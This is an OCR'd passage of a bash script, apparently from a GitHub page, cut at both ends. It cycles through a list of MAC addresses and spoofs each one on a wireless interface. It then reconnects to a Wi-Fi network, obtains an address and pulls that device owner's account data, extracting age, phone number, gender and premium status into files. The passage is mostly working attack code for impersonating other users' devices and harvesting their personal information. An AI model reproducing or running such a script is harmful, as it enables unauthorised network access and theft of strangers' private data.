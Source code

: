 trap on_exit EXIT

mkdir $OUTDIR

echo "turning wifi on $DEV off for nmcli for now"

# turning it off in nmcli
nmcli dev set $DEV managed false >/dev/null 2>&1
nmcli dev set $DEV autoconnect false  >/dev/null 2>&1

for MAC in $(cat $INPUT); do
    echo -en "\033[2m"$MAC"\033[0m"' : '

    progress "switching..."
    sudo iw dev $DEV disconnect 2>/dev/null
    sudo ifconfig $DEV down
    if ! sudo ifconfig $DEV hw ether $MAC > /dev/null 2>&1; then
        status "failed to set mac?"
        echo $MAC >> $OUTDIR/not-macs.txt
        continue
    fi
    sudo ifconfig $DEV up

    progress "connecting..."

    CON_SUCCESS=
    for try in {1..3}; do
        progress "try $try..."
        if sudo iw dev $DEV connect -w $SSID | grep connected >/dev/null 2>&1 ; then
            CON_SUCCESS=1
            break
        fi
    done

    if ! [ $CON_SUCCESS ]; then
        status "failed to connect to wi-fi"
        echo $MAC >> $OUTDIR/no-assoc-macs.txt
        continue
    fi

    progress "getting ip..."

    if ! sudo dhclient -1 $DEV; then
        status "DHCP failed"
        echo $MAC >> $OUTDIR/no-ip-macs.txt
        continue
    fi

    progress "userdata..."

    USERDATA=$OUTDIR/$MAC-userdata.txt
    current_userdata 2>/dev/null > $USERDATA

    if [ -s $USERDATA ]; then

        AGE=`cat $USERDATA | grep -Po '(?<=age\"\ \:\ \").*?(?=\")'`
        PHONE=`cat $USERDATA | grep -Po '(?<=msisdn\"\ \:\ \").*?(?=\")'`
        PREMIUM=`cat $USERDATA | grep -Po '(?<=premium\"\ \:\ )\w*'`
        GENDER=`cat $USERDATA | grep -Po '(?<=gender\"\ \:\ \").*?(?=\")'`
        OUI=`oui $MAC`
